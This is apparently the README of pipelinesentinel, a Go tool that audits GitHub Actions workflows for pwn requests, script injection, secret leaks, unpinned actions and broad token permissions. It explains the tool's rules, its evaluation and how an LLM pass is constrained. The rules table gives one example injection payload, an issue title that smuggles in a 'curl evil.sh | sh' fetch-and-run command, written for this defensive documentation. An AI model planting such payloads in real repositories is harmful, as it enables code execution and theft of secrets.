

# pipelinesentinel

[](https://github.com/mdryaaan/pipelinesentinel/actions/workflows/ci.yml)
[](https://pkg.go.dev/github.com/mdryaaan/pipelinesentinel)
[](https://goreportcard.com/report/github.com/mdryaaan/pipelinesentinel)
[](https://go.dev/dl/)
[](LICENSE)

**Audit GitHub Actions workflows for the supply-chain mistakes that turn CI into a way into your repository.**

Your workflow files hold more power than most of your application code. They run with a write-capable token, they hold every secret the repository owns, and they execute third-party code you pinned to a tag someone else can move. `pipelinesentinel` reads that YAML, finds the five patterns that actually get repositories compromised, and tells you the line to change.

Detection is **deterministic**. A language model is consulted only for the handful of findings the rules themselves marked ambiguous — and it can never invent a finding the rules did not raise.

```console
$ pipelinesentinel audit --offline
🛑  Critical pwn-request        .github/workflows/vulnerable-workflow-1.yml:15  pull_request_target checks out untrusted pull request code
🛑  Critical script-injection   .github/workflows/vulnerable-workflow-1.yml:19  Untrusted github.event.pull_request.title interpolated into a run block
🛑  Critical script-injection   .github/workflows/vulnerable-workflow-1.yml:20  Untrusted github.event.pull_request.head.ref interpolated into a run block
🛑  Critical script-injection   .github/workflows/vulnerable-workflow-2.yml:16  Untrusted github.event.issue.title interpolated into a run block
🛑  Critical secret-leak        .github/workflows/vulnerable-workflow-2.yml:20  Secret written to the build log
🔴  High     broad-permissions  .github/workflows/vulnerable-workflow-1.yml:6  Blanket write-all permissions at workflow level
🔴  High     secret-leak        .github/workflows/vulnerable-workflow-1.yml:23  Secret passed on a command line
🔴  High     broad-permissions  .github/workflows/vulnerable-workflow-2.yml:3  No explicit permissions block
🔴  High     unpinned-action    .github/workflows/vulnerable-workflow-2.yml:22  Action "some-org/some-action@latest" is not pinned to a commit SHA
🔴  High     secret-leak        .github/workflows/vulnerable-workflow-3.yml:25  Secret passed on a command line
🟠  Medium   unpinned-action    .github/workflows/vulnerable-workflow-1.yml:13  Action "actions/checkout@v4" is not pinned to a commit SHA
🟠  Medium   unpinned-action    .github/workflows/vulnerable-workflow-2.yml:12  Action "actions/checkout@main" is not pinned to a commit SHA
🟠  Medium   unpinned-action    .github/workflows/vulnerable-workflow-3.yml:15  Action "actions/checkout@v4" is not pinned to a commit SHA
🟠  Medium   unpinned-action    .github/workflows/vulnerable-workflow-3.yml:16  Action "actions/setup-go@v5" is not pinned to a commit SHA

14 finding(s) in 5 file(s): 5 Critical, 5 High, 4 Medium
```

---

## ✨ Features

- 🎯 **Five rules that map to real compromises** — pwn requests, script injection, leaked secrets, unpinned actions, and over-broad token permissions.
- 📍 **Exact line numbers, always** — the parser keeps the source position of every value, including inside multi-line `run:` blocks where the YAML node points at the `|` marker rather than the script.
- 🔧 **A diff you can apply** — every finding carries a unified diff and the safe pattern for that rule, not just a complaint.
- 🧠 **Rules first, reasoning second** — the model only sees findings the rules could not settle alone, and only adjudicates reachability.
- 🚫 **Citations are verified, not trusted** — any line number the model cites outside the excerpt it was shown is stripped and counted before you ever see it.
- 🏠 **Local by default** — Ollama, no API key, nothing leaves the machine. Claude is one flag away when you want it.
- ✈️ **Runs completely offline** — the example workflows and the labelled corpus are compiled into the binary.
- 📊 **A real evaluation** — 45 labelled cases, per-rule precision and recall, a confusion matrix, and a line-accuracy score.
- 📦 **Five output formats** — terminal digest, Markdown, JSON, SARIF for code scanning, and a PR comment that updates itself.
- ⚙️ **A composite Action** — drop it in a workflow and gate merges on severity.

---

## 🏗️ How it works



Three properties of that flow are the whole design:

**The model cannot create findings.** It only ever receives a finding the rules already raised, and its answer is confined to a three-value verdict about reachability. There is no path by which a hallucination becomes a line in your report.

**Dismissing is harder than confirming.** A confirmation costs a maintainer a few minutes of reading. A dismissal hides a possible vulnerability — from a model working off a 25-line excerpt, with no view of your branch protections or who can open a pull request. So only a `not_exploitable` verdict at confidence ≥ 0.7 suppresses anything, `uncertain` never does, and every dismissal stays in the JSON with its reason attached.

**Citations are checked, not believed.** The excerpt is numbered, the model is told which range it may cite, and anything outside that range is stripped and counted. The prompt asks for honesty; this is what enforces it.

---

## 📋 Rules

| Rule | What it catches | Severity | Why it matters |
|---|---|---|---|
| `pwn-request` | `pull_request_target` that checks out the PR's own head (`head.sha`, `head.ref`, `github.head_ref`, `merge_commit_sha`, `refs/pull/N/merge`) | 🛑 Critical | The trigger runs against the **base** repository with its secrets and a write-capable token. Building a stranger's code with that in reach is a full repository compromise. |
| `script-injection` | Untrusted `${{ github.event.* }}` interpolated into a `run:` block or an `actions/github-script` `script:` input | 🛑 Critical → 🟠 Medium | Expressions are substituted into the script **before** the shell parses it, so an issue titled `"; curl evil.sh \| sh; #` becomes a command. Severity tracks the trigger: critical when any GitHub user can fire it, medium when push access is required. |
| `secret-leak` | `${{ secrets.* }}` printed to the log or expanded onto a command line | 🛑 Critical / 🔴 High | Log masking is a literal string match — encode, slice, or re-serialise a secret and it prints in the clear. And every process on the runner can read every other process's argv. |
| `unpinned-action` | `uses:` on anything but a full 40-character commit SHA | 🔴 High / 🟠 Medium | A tag is a mutable pointer. Whoever owns the action can change what runs inside your job, with your secrets, at any time. Third-party actions rank above first-party ones. |
| `broad-permissions` | `write-all`, a missing `permissions:` block, or a sensitive write scope under an untrusted trigger | 🔴 High / 🟠 Medium / 🟡 Low | Whatever the `GITHUB_TOKEN` can do, **every step in the job** can do — including a compromised dependency. The blast radius of one bad action is exactly the scopes you granted. |

`pipelinesentinel audit --list-rules` prints this catalogue with the remediation for each.

### What the rules deliberately do *not* flag

A security tool that cries wolf gets switched off, and a rule that fires on every correct workflow is worse than no rule:

- **`pull-requests: write` and `issues: write` under an untrusted trigger.** A labeler bot needs exactly those. Only the scopes that let an attacker change what the repository *ships* — `contents`, `packages`, `actions`, `deployments`, `id-token`, `security-events`, `attestations` — are flagged.
- **An expression inside a shell comment.** The shell never evaluates it.
- **A secret bound to a shell variable and nothing else.** `TOKEN="${{ secrets.X }}"` on its own puts nothing in another process's argv. It is the command on the same line that does.
- **A SHA-pinned action with a `# v4.2.2` comment.** This is the recommended form. Matching the version out of the trailing comment would flag exactly the workflows that got it right.
- **`./local-action` and `docker://image` references.** Not third-party supply chain in the same sense.
- **`workflow_dispatch` inputs.** Firing one requires write access already.

---

## 📦 Install

```bash
go install github.com/mdryaaan/pipelinesentinel@latest
```

Or build from source:

```bash
git clone https://github.com/mdryaaan/pipelinesentinel.git
cd pipelinesentinel
make build      # → bin/pipelinesentinel
```

Requires Go 1.22 or newer. The binary has no runtime dependencies — the fixtures and the eval corpus are compiled in.

---

## 🚀 Usage

```bash
# Audit the repository you are standing in — no network call
pipelinesentinel audit

# See what the tool does, with zero setup
pipelinesentinel audit --offline

# Audit a repository over the API
pipelinesentinel audit mdryaaan/pipelinesentinel --ref main

# Full explanations with the fix for each finding
pipelinesentinel explain --rule-id script-injection

# Write a report for CI
pipelinesentinel report --format markdown -o report.md --json audit.json
pipelinesentinel report --format sarif -o results.sarif

# Score the detector against the labelled corpus
pipelinesentinel eval --format markdown

# Turn on the reasoning pass for ambiguous findings
pipelinesentinel audit --reason                      # local Ollama
pipelinesentinel audit --reason --provider claude     # needs ANTHROPIC_API_KEY
pipelinesentinel audit --reason --provider offline    # deterministic baseline, no model
```

### Commands

| Command | Purpose |
|---|---|
| `audit [path \| owner/repo]` | Audit and print a summary. The default command. |
| `explain [path \| owner/repo]` | Full reasoning, the source, and a diff for every finding. |
| `report [path \| owner/repo]` | Write a report to a file, optionally with a JSON companion. |
| `eval` | Score the detector against the labelled corpus. |
| `version` | Version, commit, build date, and platform. |
| `completion <shell>` | Completion script for bash, zsh, fish, or powershell. |

### Exit codes

| Code | Meaning |
|---|---|
| `0` | Clean, or nothing reached `--fail-on`. |
| `1` | Findings at or above the failure threshold. |
| `2` | The tool could not complete — bad token, unparseable config, unreachable repository. |

These are separate on purpose. A CI job that collapses them cannot tell a vulnerable workflow from an expired token.

### Configuration

Drop a `.pipelinesentinel.yml` at the repository root. It is discovered from any subdirectory, and **flags always win** over it:

```yaml
provider: ollama
reason: false
min_severity: info
fail_on: high
ignore: []
ignore_paths: []
```

Unknown keys and unknown rule names are rejected rather than ignored — a typo in `min_severity` should not silently leave the threshold where it was while you believe you raised it.

---

## 📊 Evaluation

The corpus is 45 labelled workflows: 33 that should trip a specific rule, and **12 safe look-alikes that must stay silent**. The clean cases carry most of the weight. Recall alone is trivial to game — a rule that fires on everything scores perfectly — so a labelled set without safe look-alikes cannot distinguish a useful detector from a broken one.

Run it yourself: `pipelinesentinel eval`.

| Metric | Value |
|---|---|
| Exact-match accuracy | **100.0%** (45/45) |
| Macro F1 | **1.000** |
| Clean workflows left silent | **100.0%** (12/12) |
| Findings citing the labelled line | **100.0%** (33/33) |

### Per rule

| Rule | Precision | Recall | F1 | TP | FP | FN |
|---|---|---|---|---|---|---|
| `broad-permissions` | 1.000 | 1.000 | 1.000 | 6 | 0 | 0 |
| `pwn-request` | 1.000 | 1.000 | 1.000 | 8 | 0 | 0 |
| `script-injection` | 1.000 | 1.000 | 1.000 | 7 | 0 | 0 |
| `secret-leak` | 1.000 | 1.000 | 1.000 | 7 | 0 | 0 |
| `unpinned-action` | 1.000 | 1.000 | 1.000 | 6 | 0 | 0 |

### Confusion matrix

Rows are the labelled category, columns are what actually fired. The `clean` column is a miss.

| labelled \ fired | perms | clean | pwn | inject | secret | unpinned |
|---|---|---|---|---|---|---|
| **perms** | 6 | 0 | 0 | 0 | 0 | 0 |
| **clean** | 0 | **12** | 0 | 0 | 0 | 0 |
| **pwn** | 0 | 0 | 7 | 0 | 0 | 0 |
| **inject** | 0 | 0 | 1 | 7 | 0 | 0 |
| **secret** | 0 | 0 | 0 | 0 | 7 | 0 |
| **unpinned** | 0 | 0 | 0 | 0 | 0 | 6 |

*(The single `inject → pwn` cell is not an error: case-002 is a `pull_request_target` workflow that interpolates the PR title, so it legitimately trips both rules. Scoring is multi-label.)*

### ⚠️ What this number does and does not mean

**Read this before quoting 100%.** The corpus and the rules were written by the same person, in the same week. That makes this an excellent **regression suite** and a poor **generalisation benchmark**:

- ✅ **It does prove**: every rule fires on the patterns it claims to catch, every safe look-alike stays silent, and every finding lands on the labelled line. CI gates on `--min-score 1.0`, so a behaviour change in any rule fails the build.
- ✅ **It did change the rules**: the first full run over the corpus exposed a genuine false positive — `pull-requests: write` under an untrusted trigger fired on three cases, one of them a workflow that was labelled clean precisely because a labeler bot needs that scope. `broad-permissions` was narrowed to the scopes that change what a repository ships. Five further cases were then written specifically to probe gaps: interpolation into an `actions/github-script` body, a `refs/pull/N/merge` checkout, a secret inside a quoted `curl` header, an expression sitting in a shell comment, and a `workflow_dispatch` input. The first four changed the rules; the fifth confirmed one was already right.
- ❌ **It does not prove** the rules generalise to workflows in the wild. A corpus written alongside a detector inherits its blind spots by construction. The honest next step is a corpus drawn from real public repositories and labelled by someone else.

The reasoning-pass numbers are reported separately, and never mixed into the detector's score.

### The offline baseline is not a model

`--provider offline` exists so the whole pipeline runs with no daemon and no API key, and so a real model has something to be measured against. **It applies a second set of hand-written heuristics — it does not run an LLM.** Its output carries a disclaimer in the verdict text, in every report format, on stderr, and here.

It also scores 0 fabricated citations, which is not an achievement: it reads its citations out of the excerpt, so it *cannot* fabricate one. That is a property of the mechanism, and it is stated wherever the number appears next to a real model's.

Running a genuine model needs the service actually running:

```bash
ollama serve && ollama pull llama3
pipelinesentinel audit --reason --provider ollama --model llama3

export ANTHROPIC_API_KEY=sk-...
pipelinesentinel audit --reason --provider claude
```

---

## 🤔 Design decisions

### Why rules first, LLM second

Every rule here detects a pattern that is *decidable from the text*. Is this `uses:` a 40-character hex string? Does this workflow trigger on `pull_request_target` and also check out `head.sha`? A regex answers those correctly, in microseconds, for free, and identically every time. Handing them to a model buys nothing and costs three things: latency, money, and a non-zero chance the model talks itself out of a correct answer.

What a model *is* good at is the question the text does not settle: **can an attacker actually reach this?** That depends on the trigger, the permissions, what the neighbouring steps do, and how the repository is configured. That is the only question it gets asked, only for findings a rule explicitly marked ambiguous, and its answer is confined to a three-value verdict inside a schema.

The practical test: with the reasoning pass switched off, the tool is still fully useful. It reports 100% of what the rules can see. The model makes the ambiguous minority sharper — it is not load-bearing.

### Why Ollama by default

Workflow YAML is not as sensitive as a build log, but it is a fairly precise map of a repository's attack surface: its deploy paths, its internal hostnames, and the name of every secret it holds. Sending that to a third party by default is the wrong posture for a security tool. Local inference means the map never leaves the machine, needs no account, and costs nothing — which also means anyone can run the full pipeline on first try. Claude is one flag away when accuracy matters more than those three things.

### Why line numbers were the hard part

The single most common failure in a YAML linter is citing the wrong line. `gopkg.in/yaml.v3` reports a block scalar's position at the `|` marker, not at the first line of the script — so a naive implementation reports every finding inside a multi-line `run:` block on the `run:` line itself, sending the reader to innocent code. `BlockBodyPos` corrects for it, `LineOffset` walks within the block, and the eval corpus scores line accuracy as a first-class metric so a regression there fails CI rather than quietly degrading every report.

---

## 🤖 Use as a GitHub Action

```yaml
name: Workflow security

on:
  pull_request:
  push:
    branches: [main]

permissions:
  contents: read

jobs:
  audit:
    runs-on: ubuntu-latest
    steps:
      - uses: actions/checkout@11bd71901bbe5b1630ceea73d27597364c9af683 # v4.2.2

      # Pinned to a commit SHA, which is what this tool asks of you.
      - uses: mdryaaan/pipelinesentinel@e69406efa95c3b21d064e812e9afe8ff27a8cb8a # main
        with:
          fail-on: high
```

### Inputs

| Input | Default | Description |
|---|---|---|
| `path` | `.` | Directory to audit. |
| `fail-on` | `high` | Severity at which the job fails. |
| `min-severity` | `info` | Hide findings below this severity. |
| `rules` | — | Comma-separated rules to run. |
| `ignore` | — | Comma-separated rules to skip. |
| `format` | `markdown` | Report format written to the job summary. |
| `sarif-file` | — | Also write SARIF, for upload to code scanning. |
| `json-file` | — | Also write the machine-readable result. |
| `version` | `latest` | Version to install. |

### Outputs

| Output | Description |
|---|---|
| `findings` | Number of findings that survived the reasoning pass. |
| `worst-severity` | Highest severity found, or `info` when clean. |
| `report-file` | Path to the generated Markdown report. |

The report lands in the job summary automatically. To feed GitHub code scanning as well:

```yaml
      - uses: mdryaaan/pipelinesentinel@e69406efa95c3b21d064e812e9afe8ff27a8cb8a # main
        with:
          sarif-file: results.sarif
          fail-on: critical

      - uses: github/codeql-action/upload-sarif@f09c1c0a94de965c15400f5634aa42fac8fb8f88 # v3.27.5
        if: always()
        with:
          sarif_file: results.sarif
```

Every finding then appears as an inline annotation on the exact line, in the interface reviewers already use.

---

## 🧱 Project layout

```
pipelinesentinel/
├── main.go                     # embeds the fixtures and the corpus, hands them to cmd
├── action.yml                  # composite GitHub Action
├── cmd/                        # cobra command tree
│   ├── root.go                 #   global flags, config layering, exit codes
│   ├── audit.go  explain.go  report.go  eval.go  version.go  completion.go
│   └── source.go               #   target resolution: offline → path → owner/repo
├── internal/
│   ├── parser/                 # yaml.Node → workflow model, positions preserved
│   ├── rules/                  # the five rules and the engine
│   ├── finding/                # the finding model, severity ladder, remediation
│   ├── llm/                    # provider interface, schema, prompts, reviewer
│   ├── github/                 # API client, rate limiting, local and offline sources
│   ├── audit/                  # the run: source → rules → reasoning → report
│   ├── report/                 # digest, markdown, json, sarif, pr-comment
│   ├── eval/                   # corpus, scorer, harness
│   ├── config/                 # .pipelinesentinel.yml
│   └── utils/                  # retry with backoff, unified diff
├── pkg/version/                # build metadata, public on purpose
└── testdata/
    ├── fixtures/               # 5 example workflows, compiled into the binary
    └── eval/                   # 45 labelled cases + their workflows
```

---

## 🗺️ Roadmap

- **Reusable-workflow analysis** — follow `uses: ./.github/workflows/x.yml` and audit the callee with the caller's permissions.
- **A corpus from the wild** — labelled workflows from public repositories, annotated by someone who did not write the rules, to replace a regression suite with a real benchmark.
- **Composite-action traversal** — an unpinned action inside a pinned action is still unpinned.
- **`--fix` mode** — apply the generated diffs directly, behind a confirmation.
- **A model-comparison table** — the same corpus scored by Ollama, by Claude, and by the deterministic baseline, side by side.
- **Auto-updating PR comments** — the marker is already in the output; the API call to update in place is not.

---

## 🤝 Contributing

See [CONTRIBUTING.md](CONTRIBUTING.md). In short: a new rule needs a fixture, table-driven tests including the false positives it must *not* produce, an entry in the remediation catalogue, and cases in the labelled corpus — both positive and clean.

## 📄 License

MIT © 2026 Md Raiyan. See [LICENSE](LICENSE).
